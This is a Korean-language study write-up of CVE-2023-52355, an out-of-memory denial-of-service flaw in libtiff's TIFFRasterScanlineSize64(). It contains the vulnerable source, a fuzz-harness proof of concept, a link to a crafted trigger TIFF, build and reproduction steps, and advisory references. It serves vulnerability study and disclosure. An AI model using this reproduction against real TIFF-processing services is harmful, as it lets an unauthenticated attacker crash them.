

# [CVE-2023-52355] libtiff TIFFRasterScanlineSize64()

Found By: PromptFuzz (automated LLM-guided fuzz-driver generation)

Reported via: libtiff GitLab Issue #621

Write-up: Sn0wyDay - study writeup, Jul, 2026

---

## 심각도

점수: 7.5 / 10

CVSS: 3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

## 요약

libtiff의 raster scanline 크기 계산 로직에 인증이 필요 없는 원격 서비스 거부(Dos) 취약점이 존재한다.

379KB 미만의 조작된 TIFF 파일을 열고 TIFFRasterScanlineSize() / TIFFRasterScanlineSize64() 를 통해 스캔라인 크기를 조회하면, 공격자가 조작한 태그 필드 조합에 의해 비정상적으로 큰 크기의 값이 반환된다. 이 값을 그대로 사용해 버퍼를 할당하는 호출부는 메모리 부족 상태에 빠지며 크래시하거나 강제 종료된다. 

## 상세 내용

TIFFRasterScanlineSize()는 완전히 디코딩되고 패킹된 raster scanline의 바이트 크기를 반환한다고 문서화되어 있다. 내부적으로는 TIFFRasterScanlineSize64() 를 호출하는데, 이 함수는 오직 TIFF 디렉터리 태그 필드인 td_bitspersample 과 td_imagewidth만으로 크기를 계산한다. 이 값들은 전부 파일(공격자가 조작 가능)에서 직접 읽어들이는데, 곱셈 연산 전에 아무런 범위 검증도 거치지 않는다.

```jsx
uint64_t TIFFRasterScanlineSize64(TIFF *tif)
{
 static const char module[] = "TIFFRasterScanlineSize64";
 TIFFDirectory *td = &tif->tif_dir;
 uint64_t scanline;
 scanline =
 _TIFFMultiply64(tif, td->td_bitspersample, td->td_imagewidth, module);
 if (td->td_planarconfig == PLANARCONFIG_CONTIG)
 {
 scanline =
 _TIFFMultiply64(tif, scanline, td->td_samplesperpixel, module);
 return (TIFFhowmany8_64(scanline));
 }
 else
 return (_TIFFMultiply64(tif, TIFFhowmany8_64(scanline),
 td->td_samplesperpixel, module));
}
```

공개된 트리거 입력 파일(triger_input_41)에서는 조작된 BitsperSample과 ImageWidth 태그 값이 각각 파일 오프셋 0xC2-0xC3, 0xAA-0xAB에 위치한다. 반환 값이 오직 할당 크기로만 사용되고 그 어떤 합리적인 상한과도 비교되지 않기 때문에, 379KB보다 작은 파일 하나로도 거대한 할당 요청을 유발해 메모리를 고갈시키고 프로세스를 크래시시킬 수 있다.

## PoC

원 발견자 (PromptFuzz 프로젝트)가 제공한 코드

```jsx
// poc.cc
#include <tiffio.hxx>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <vector>
#include <fstream>
#include <iostream>
#include <sstream>

extern "C" int LLVMFuzzerTestOneInput(const uint8_t* data, size_t size) {
    if (size <= 0) return 0;

    // open input tiff in memory
    std::istringstream s(std::string(data, data + size));
    TIFF *in_tif = TIFFStreamOpen("MemTIFF", &s);
    
    if (!in_tif) {
        return 0;
    }

    tdir_t directoryCount = TIFFNumberOfDirectories(in_tif);
    
    for (tdir_t i = 0; i < directoryCount; i++) {
        if (TIFFSetDirectory(in_tif, i)) {
            tmsize_t scanlineSize = TIFFRasterScanlineSize(in_tif);
            
            if (scanlineSize > 0) {
                uint8_t* scanline = (uint8_t*)_TIFFmalloc(scanlineSize);
                tmsize_t bytesRead = TIFFReadScanline(in_tif, scanline, TIFFCurrentRow(in_tif), 0);
                
                if (bytesRead >= 0) {
                    // process scanline data ...
                }
                
                _TIFFfree(scanline);
            }
        }
    }
    
    TIFFClose(in_tif);
    return 0;
}
```

## 재현 절차

1. 트리거 입력 파일 다운

[https://github.com/PromptFuzz/crash_inputs/raw/main/libtiff/oom1/triger_input_41](https://github.com/PromptFuzz/crash_inputs/raw/main/libtiff/oom1/triger_input_41)

1. ASAN을 활성화한 상태로 libtiff빌드 (패치 적용 전 커밋, 즉 커밋 335947359 이전 버전 기준)
2. PoC 하네스 컴파일
    
    ```jsx
    -fsanitize=fuzzer,address -g -O0 -I/libtiff/include \
        poc.cc -o poc.out libtiff.a -lz -ljpeg -llzma -ljbig
    ```
    
3. 버그 트리거
    
    ```jsx
    ./poc.out triger_input_41
    ```
    

예상 동작 (취약한 버전) : ASAN이 과도하게 큰 메모리 할당 요청에 대해 abort되거나 프로세스가 OOM killer에 의해 강제 종료됨.

사용 환경 : Ubuntu 22.04, Clang 15.0.0

## 실제 재현




매우 큰 메모리 할당 불가 문제 발생

## 영향

신뢰할 수 없는 TIFF 파일을 열고 스캔라인 버퍼를 할당하기 전에 TIFFRasterScanlineSize()/TIFFRasterScanlineSize64() 를 호출하는 모든 애플리케이션이나 서비스는 379KB보다 작은 조작된 파일 단 하나로 크래시되거나 OOM으로 강제 종료될 수 있다. “해당 파일을 처리한다” 이상의 인증이나 유저 상호작용이 필요하지 않다.

## CVE 정보

> [Suggested description]
An out-of-memory flaw was found in libtiff that could be triggered by
passing a crafted tiff file to the TIFFRasterScanlineSize64() API. This
flaw allows a remote attacker to cause a denial of service via a crafted
input with a size smaller than 379 KB.
> 
> 
> ---
> 
> [Additional Information]
> Confirmed CWE tagging (GitHub Advisory Database, NVD-sourced): CWE-400
> (Uncontrolled Resource Consumption) and CWE-787 (Out-of-bounds Write).
> Size is derived from unchecked td_bitspersample / td_imagewidth tag
> fields.
> 
> ---
> 
> [Vulnerability Type]
> Missing size / bounds validation (leads to uncontrolled memory
> allocation)
> 
> ---
> 
> [Vendor of Product]
> [https://gitlab.com/libtiff/libtiff](https://gitlab.com/libtiff/libtiff)
> 
> ---
> 
> [Affected Product Code Base]
> libtiff - 4.x, fixed via GitLab MR !553
> (commits 335947359 [docs] and 6791bff9 [code fix], per Red Hat Bugzilla
> 2251326)
> 
> ---
> 
> [Affected Component]
> libtiff/libtiff/tif_strip.c, TIFFRasterScanlineSize64()
> (directly confirmed by reading the source file)
> 
> ---
> 
> [Attack Type]
> Remote / Local (any TIFF-file-processing path)
> 
> ---
> 
> [Impact Denial of Service]
> true
> 
> ---
> 
> [Reference]
> [https://nvd.nist.gov/vuln/detail/CVE-2023-52355](https://nvd.nist.gov/vuln/detail/CVE-2023-52355)
> [https://github.com/advisories/GHSA-fh6j-mgh8-7prh](https://github.com/advisories/GHSA-fh6j-mgh8-7prh)
> [https://gitlab.com/libtiff/libtiff/-/issues/621](https://gitlab.com/libtiff/libtiff/-/issues/621)
> [https://gitlab.com/libtiff/libtiff/-/merge_requests/553](https://gitlab.com/libtiff/libtiff/-/merge_requests/553)
> [https://bugzilla.redhat.com/show_bug.cgi?id=2251326](https://bugzilla.redhat.com/show_bug.cgi?id=2251326)
> [https://github.com/FuzzAnything/PromptFuzz](https://github.com/FuzzAnything/PromptFuzz)
> [https://github.com/PromptFuzz/crash_inputs](https://github.com/PromptFuzz/crash_inputs)
> 
> ---
> 
> [Discoverer]
> PromptFuzz (Yunlong Lyu, Yuhang Xie, Peng Chen, Hao Chen —
> "Prompt Fuzzing for Fuzz Driver Generation", ACM CCS 2024,
> arXiv:2312.17677)
>